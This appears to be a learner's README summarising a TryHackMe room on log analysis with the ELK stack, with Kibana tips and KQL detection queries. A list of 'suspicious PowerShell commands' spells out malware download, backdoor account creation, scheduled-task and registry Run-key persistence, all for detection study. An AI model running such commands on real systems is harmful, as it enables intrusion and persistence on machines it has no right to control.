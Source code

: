 
<a href="https://tryhackme.com/room/servidae" target="_blank"><img src="./banner.png" width="700px" /></a>

## Summary

This is an introductionary room that introduces the following tools that can be applied to log analysis and DFIR with the ["Elastic Stack"](https://www.elastic.co/elastic-stack), or the _ELK Stack_, which consists of:

* Elasticsearch: https://www.elastic.co/elasticsearch 
    * Described as "an open-source, distributed search and analytics engine designed for storing and indexing large volumes of data." (quoted from the [THM room, task #2](https://tryhackme.com/room/servidae))
* Logstash: https://www.elastic.co/logstash 
    * Described as a "tool primarily used to collect, process, and transform data from various sources and prepare it for storage in Elasticsearch or other systems." (quoted from the [THM room, task #2](https://tryhackme.com/room/servidae))
* Kibana: https://www.elastic.co/kibana
    * Described as "the interactive graphical and visual front-end powering the Elastic Stack." (quoted from the [THM room, task #2](https://tryhackme.com/room/servidae))

### Takeaways

I have not done a writeup for this room, but I can recommend one written by \([Alan 2023](https://medium.com/@josephalan17201972/servidae-log-analysis-in-elk-tryhackme-write-up-52a7902c7892)\) for anyone who wants to follow along. Some things that I found interesting are:

* Basic Notions in Kibana:
    * The __Discover__ tab is where analysts go to for basic exploration, querying and analysis of real time data.
    * The time zone that ELK assumes when doing analysis can be changed over at ``http://MACHINE_IP/app/management/kibana/settings?query=time+zone``
    * A __time filter__ is used in the __Discover__ tab to filter events within a specified time range.
    * The _ECS Field Reference_ \([Elastic, n.d.(https://www.elastic.co/guide/en/ecs/current/ecs-field-reference.html)\) is to be referenced when selecting fields and columns to analyse.
* KQL Queries are used to query ELK-stack powered databases. Some examples are:
    * Searches for MSI files: ``process.command_line: *msi*``
    * Searches for suspicious uses of the cURL command: ``process.name : "curl.exe" AND NOT process.command_line : *beacon*``
    * Searches for PHP cookies/POST data: ``*PHPSESSID*``
    * More sophisticated search for suspicious uses of the cURL command: ``process.name: "curl.exe" AND NOT process.command_line: *beacon* AND process.command_line: *[bad URL]*``
* Suspicious PowerShell commands include:
    * ``powershell -c Invoke-WebRequest -Uri "http://[bad website]/[bad file].exe" -OutFile "[bad file].exe"``
    * ``net user backdoor backdoor /add /expires:never /passwordchg:no``
    * ``schtasks /create /tn "[Bad Service Name]" /tr "[full path to bad batch file].bat" /sc minute /mo 1 /ru "System"``
    * ``reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "[bad registry run value]" /t REG_SZ /d "[full path to bad executable or script]" /f``
* Follow up resources include:
    * [Alan (2023)](https://medium.com/@josephalan17201972/servidae-log-analysis-in-elk-tryhackme-write-up-52a7902c7892)'s writeup for this room.
    * A _Computer Security Incident Handling Guide_ \([Cichonski et al. (2012)](https://doi.org/10.6028/nist.sp.800-61r2)\) by the NIST discussing their standard for good and high-quality incident response.
    * The [MITRE ATT&CK Framework](https://attack.mitre.org/) to get a "peep into the mind" of an attacker.
    * [Elastic, n.d.-b](https://www.elastic.co/elastic-stack/)'s article introducing their ELK stack.

## References

* Alan, J. (Oct. 25, 2023) _Servidae: Log Analysis in ELK TryHackMe Write-Up_. Retrieved on Mar 18, 2024 from: https://medium.com/@josephalan17201972/servidae-log-analysis-in-elk-tryhackme-write-up-52a7902c7892
* Cichonski, P., Millar, T., Grance, T., & Scarfone, K. (2012). _Computer Security Incident Handling Guide: Recommendations of the National Institute of Standards and Technology_. National Institute of Standards and Technology. https://doi.org/10.6028/nist.sp.800-61r2 
* Elastic (n.d.). _ECS Field Reference._ Retrieved on Mar. 18, 2024 from: https://www.elastic.co/guide/en/ecs/current/ecs-field-reference.html
* Elastic (n.d.-b). _Meet the search platform that helps you search, solve, and succeed._ Retrieved on Mar. 18, 2024 from: https://www.elastic.co/elastic-stack/
* MITRE ATT&CK Framework (n.d.). Retrieved on Mar. 18, 2024 from: https://attack.mitre.org/

